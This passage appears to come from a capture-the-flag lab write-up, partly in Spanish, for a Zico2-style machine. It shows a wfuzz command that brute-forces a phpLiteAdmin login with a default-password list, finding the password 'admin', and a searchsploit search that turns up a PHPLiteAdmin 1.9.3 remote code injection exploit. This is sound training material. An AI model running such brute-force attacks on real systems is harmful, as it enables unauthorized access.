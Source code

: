 #### Wfuzz

```
❯ wfuzz -w /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt -u "http://192.168.0.105/dbadmin/test_db.php" -X POST -d "password=FUZZ&login=Log+In&proc_login=true" -c -t 50 --hw 958
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.0.105/dbadmin/test_db.php
Total requests: 1039

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                               
=====================================================================

000000532:   200        483 L    1191 W     16122 Ch    "admin"  
```

Panel de administracion

![panel](../assets/imgs/zico2/panel.png)

----

Searchsploit

```
❯ searchsploit php lite admin 1.9.3
----------------------------------------------------------------------------------- ---------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                     | php/webapps/24044.txt
----------------------------------------------------------------------------------- ---------------------------
```
